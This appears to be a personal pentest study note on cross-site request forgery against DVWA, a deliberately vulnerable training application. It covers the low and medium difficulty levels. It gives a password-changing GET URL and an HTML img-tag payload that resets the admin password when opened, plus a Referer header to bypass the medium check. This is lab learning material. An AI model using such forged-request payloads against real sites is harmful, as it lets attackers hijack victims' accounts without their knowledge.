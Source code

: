```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

Notice how changing the password required no verification process as it's changed.  Now, look at the URL:

`http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#`

If we can get the "admin" user to visit the malicious URL, the password will be changed to whatever we want. We don't need to actually type in anything to the vulnerable form.

Save the following as an html file, open in browser, and now the DVWA creds have changed from `admin:password` to `admin:newpassword`
```html
<img src="http://dvwa.local/vulnerabilities/csrf/?password_new=newpassword&password_conf=newpassword&Change=Change#">/img>
```

MEDIUM

Same as low, except we need to add a header in the request:

Referer:  `http://dvwa.local/vulnerabilities/csrf/`
